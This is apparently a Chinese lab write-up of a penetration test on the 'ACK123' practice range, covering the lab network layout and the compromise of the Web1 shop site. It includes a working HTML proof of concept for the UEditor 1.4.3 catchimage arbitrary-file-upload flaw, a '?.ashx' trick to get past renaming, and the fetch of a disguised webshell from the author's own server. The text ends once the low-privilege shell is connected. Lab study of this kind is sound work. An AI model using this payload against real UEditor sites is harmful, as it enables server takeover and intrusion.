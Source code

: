 # ACK123靶场渗透

> 因为网络环境差异，本次搭建进行了ip地址范围的调整，具体如下：

```
网卡总览
NAT
10.10.200.x
255.255.0.0
10.10.10.1
10.10.10.10

VM18
192.168.233.x
255.255.255.0

VM19
192.168.234.x
255.255.255.0

主机
web1
Eth0 > NAT: 10.10.200.24
Eth1 > VM18: 192.168.233.24

data1
Eth0 > VM18: 192.168.233.23
Eth1 > NAT: 10.10.200.23

web2
Eth0 > VM19: 192.168.234.25
Eth1 > VM18: 192.168.233.25

data2
Eth1 > VM19: 192.168.234.26

dc1
Eth0 > VM19: 192.168.234.27
```

## 渗透过程

### Web1

修改hosts将域名`test1234.ysneko.com`解析到`10.10.200.24`，即Web1的ip

访问主页，发现是一个商城网站，从页尾了解到建站系统为**HDHCMS**

<img src="image/image-20211014201540139.png" alt="image-20211014201540139" style="zoom: 50%;" />

查找资料了解到其后台路径为admin，访问

![image-20211014201627783](image/image-20211014201627783.png)

尝试了一些弱密码均无果，尝试使用注册功能

<img src="image/image-20211014201912261.png" alt="image-20211014201912261" style="zoom:67%;" />

<img src="image/image-20211014201927399.png" alt="image-20211014201927399" style="zoom:80%;" />

![image-20211014202149524](image/image-20211014202149524.png)

成功登录后台，但是权限非常低，无法修改后台设置

从当前权限搜集到已知信息如下：

```
程序：HDHCMS
物理路径：C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web
IIS环境：IIS/8.5
数据库：MSSQL
富文本编辑器：百度Ueditor 1.4.3
```

看样子算是一个比较老的建站程序了，还在使用富文本编辑器，目前看来可以从这里下手

Ueditor是百度的富文本编辑器，查了一下，1.4.3算是一个很老的版本了，大概在17年左右使用

首先找富文本编辑器的路径

百度搜索了一下HDHCMS，发现是一个开源cms，直接下载源码审计：

http://www.hdhcms.com/

成功找到源码中Ueditor的路径：`./Admin/net/`

<img src="image/image-20211018153029042.png" alt="image-20211018153029042" style="zoom:67%;" />

查了会儿资料，发现Ueditor的1.4.3版本有一个比较出名的任意文件上传漏洞，poc如下：

```html
<form action="http://test1234.ysneko.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded" method="POST">
    <p>shell addr:<input type="text" name="source[]" /></p>
    <inputtype="submit" value="Submit" />
</form>
```

在本地或者VPS（确保互通，能够访问）上搭建好，制作图片马上传，我的地址是下面：

<img src="image/image-20211018163655671.png" alt="image-20211018163655671" style="zoom: 67%;" />

打开刚刚的poc页面

<img src="image/image-20211018163752562.png" alt="image-20211018163752562" style="zoom:80%;" />

图片马的地址为：

`https://www.ysneko.com/aspshell.gif`

通过？字符绕过重命名：

`https://www.ysneko.com/aspshell.gif?.ashx`

提交成功，地址为：

`http://test1234.ysneko.com/upfiles/image/20211019/6377019953885055874847474.ashx`

<img src="image/image-20211018163928453.png" alt="image-20211018163928453" style="zoom:67%;" />

使用哥斯拉连接

![image-20211018164933665](image/image-20211018164933665.png)

连接成功，发现是个低权限用户

<img src="image/image-20211018172154553.png" alt="image-20211018172154553" style="zoom:80%;" />

